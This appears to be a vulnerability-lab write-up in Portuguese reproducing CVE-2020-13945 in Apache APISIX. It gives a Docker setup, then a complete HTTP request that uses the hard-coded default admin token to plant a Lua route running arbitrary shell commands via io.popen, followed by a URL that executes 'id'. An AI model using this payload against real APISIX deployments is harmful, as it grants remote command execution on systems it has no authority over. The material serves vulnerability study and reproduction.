 # Apache APISIX's Admin API default access token vulnerability (CVE-2020-13945)

Apache APISIX é um gateway de API dinâmico, em tempo real e de alto desempenho. Apache APISIX tem um token de API embutido padrão `edd1c9f034335f136f87ad84b625c8f1` que pode ser usado para acessar toda a API de administração, o que leva à execução remota do código LUA através do parâmetro `script` adicionado na versão 2.x.

Referências:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Ambiente de vulnerabilidade

Execute o seguinte comando para iniciar um servidor Apache APISIX 2.11.0 (esta vulnerabilidade não foi corrigida até a versão mais recente, pode não ser considerada correção pelo fornecedor):

```
docker-compose up -d
```

Depois que o servidor for iniciado, você poderá ver uma página 404 padrão em `http://your-ip:9080`.

## Reprodução de vulnerabilidade

Adicione uma nova regra de roteador maléfica ao APISIX por meio da API de administrador com o token padrão:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Então, use este roteador malvado para executar comandos arbitrários:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
